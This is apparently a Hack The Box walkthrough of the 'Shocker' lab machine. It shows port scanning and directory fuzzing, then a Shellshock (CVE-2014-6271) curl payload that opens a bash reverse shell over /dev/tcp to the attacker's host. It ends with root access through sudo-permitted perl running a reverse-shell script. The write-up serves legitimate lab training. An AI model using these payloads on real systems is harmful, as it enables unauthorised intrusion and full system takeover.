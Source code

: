 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.56

[+] Openning ports: 80,2222

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.56 -p80,2222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 23:48 +07
Nmap scan report for 10.10.10.56
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

### Apache httpd 2.4.18

It is so funny at the home page, but don't have value info here.

![](images/2.png)

List of the hidden in the server with wfuzz.

```
┌──(Hades㉿10.10.14.5)-[2.4:26.0]~
└─$ wfuzz -z file,/usr/share/dirb/wordlists/common.txt --hc 404 'http://10.10.10.56/FUZZ'
<snip>
000000820:   403        11 L     32 W       294 Ch      "cgi-bin/"
000002020:   200        9 L      13 W       137 Ch      "index.html"
000003588:   403        11 L     32 W       299 Ch      "server-status"
```

There are uri `/cgi-bin/` may have more hidden content and will be exploit with shellshock vulnerability.

```
┌──(Hades㉿10.10.14.5)-[4.9:27.2]~
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html -b 403,404 -q
/user.sh              (Status: 200) [Size: 118]
```

I found uri `user.sh` in directory `cgi-bin`.

```
┌──(Hades㉿10.10.14.5)-[4.9:26.2]~
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 13:55:03 up  1:11,  0 users,  load average: 0.00, 0.00, 0.00

```

## Foothold

### Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/shocker)

Shellshock CVE-2014-6271 [Poc here](https://github.com/mubix/shellshocker-pocs).

`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

Execute shelshock payload in the server using curl.

```
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[3.4:26.2]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Sudo group

Checking with `sudo -l`, I know that command `/usr/bin/perl` can run as root without require password.

```
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Create file reverse shell `rev.pl` and execute it using `sudo /usr/bin/perl`.

```
shelly@Shocker:/tmp$ cat rev.pl | sudo /usr/bin/perl
```

At listener I have root shell.

```
┌──(Hades㉿10.10.14.5)-[3.5:25.3]~/scripting/priescal
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41492
# id
uid=0(root) gid=0(root) groups=0(root)
```
